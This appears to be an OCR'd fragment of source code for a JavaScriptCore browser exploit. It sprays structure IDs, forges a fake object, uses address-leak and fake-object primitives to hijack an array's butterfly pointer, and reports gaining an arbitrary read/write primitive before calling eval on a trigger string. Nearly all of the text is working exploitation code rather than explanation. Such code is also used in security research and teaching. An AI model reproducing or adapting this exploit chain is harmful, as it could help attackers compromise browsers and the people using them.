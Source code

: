 ```
}
/
print("[+] Spraying structure IDs")
// now predict structure id
var sprayedStructureIDs = []

for(let x = 0; x < 0x400; x++){
  let struct = {a:0x100, b:0x200, c:0x300, d:0x400, e:0x500, f:0x600, g:0x700}
  struct['addNewStructureId'+x] = 0x1337
  sprayedStructureIDs[x] = struct;
}

print("[+] Setting up the fake object")
// set up the fake object
// subtrace 0x1000000000000 to account for JS boxing
var fakeHost = {a:i2f(0x0108200700000100 - 0x1000000000000), b:sprayedStructureIDs[0x80]};

// when we create a fake object the structure ID will be fakeStructureID and the butterfly will point to an object allocated in our sprayed array
// we then want to allocate an array at a memory address greater than the butterfly and we use this object to overwrite the target butterfly
var baseAddr = leakAddr(sprayedStructureIDs[0x80])
print("[+] Base address @ 0x" + baseAddr.toString(16))
var target = []
var targetAddr = leakAddr(target)

while(targetAddr < baseAddr){
  target = []
  targetAddr = leakAddr(target)
}

// make sure target is ArrayWithDouble
target[1] = 1.1

print("[+] Got a array with controllable butterfly")
let fakeAddr = leakAddr(fakeHost) + 0x10
let hax = fakeObj(fakeAddr)

let targetButterflyIndex = ((targetAddr - baseAddr) / 8) + 1;
let targetButterflyPointer = f2i(hax[targetButterflyIndex])
print("[+] target butterfly == 0x" + targetButterflyPointer.toString(16))
print("[+] target address @ 0x" + targetAddr.toString(16))

function setTargetButterfly(address) {
  hax[targetButterflyIndex] = i2f(address)
}

print("[+] Got R/W primitive")
`

eval(postTrigger)                                      
```
